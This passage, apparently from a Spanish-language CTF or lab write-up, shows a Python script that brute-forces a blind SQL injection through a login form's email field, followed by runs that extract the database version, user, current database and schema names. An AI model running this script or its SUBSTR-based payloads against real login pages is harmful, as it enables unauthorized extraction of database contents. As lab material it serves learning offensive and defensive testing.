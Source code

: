 ```python
# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

def makeRequest(payload):
    data_post = {
            'email':'%s' % payload, 
            'password':'xdann1'
            }
    r = requests.post(url, data=data_post, headers=header)
    return r

if __name__ == "__main__":
    arguments = docopt(__doc__, version='Naval Fate 2.0')
    
    p2 = log.progress("Brute Forcing")
    p1 = log.progress("Output")

    for n in range(0, int(arguments["<palabras>"])):
        for i in range(1, int(arguments["<letras>"]) + 1):
            for c in dictionary:

                default = arguments["<payload>"]

                if arguments["-l"] == True:
                    limit = "(%s limit %d,1)" % (arguments["<payload>"], n)
                    default = limit

                payload = "a' or SUBSTR(%s ,%d,1)='%s'-- -" % (default, i, c)
                r = makeRequest(payload)

                p2.status("Probando en el resultado %d con el caracter %s en la posicion %d" % (n, c, i))

                if "Login Success" in r.text:
                    result += c
                    p1.status(result)

        result += " "
```

Vamos a sacar la base de datos actual, el usuario y la versión de la base de datos.

```plaintext
❯ python3 sqli.py -p "select concat(@@version,':',user(),':',database())" -l -r 40 -i 1
[┬] Brute Forcing: Probando en el resultado 0 con el caracter ~ en la posicion 40
[┬] Output: 8.0.27:main_admin@localhost:main
```

Vamos a sacar las bases de datos existentes.

```plaintext
❯ python3 sqli.py -p "select schema_name from information_schema.schemata" -l -r 20 -i 5
[├] Brute Forcing: Probando en el resultado 4 con el caracter > en la posicion 6
[├] Output: information_schema main
```
